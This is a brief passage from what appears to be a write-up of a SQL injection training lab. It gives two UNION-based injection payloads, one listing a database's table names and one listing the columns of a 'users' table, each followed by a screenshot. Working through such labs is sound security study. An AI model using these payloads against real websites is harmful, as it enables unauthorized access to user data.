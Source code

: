 ```sql
' union select NULL,table_name from information_schema.tables where table_schema='public'--
```

![](/assets/img/ps-writeup-sqli/ps-lab10_4.png)

```sql
' union select NULL,column_name from information_schema.columns where table_schema='public' and table_name='users'--
```

![](/assets/img/ps-writeup-sqli/ps-lab10_5.png)
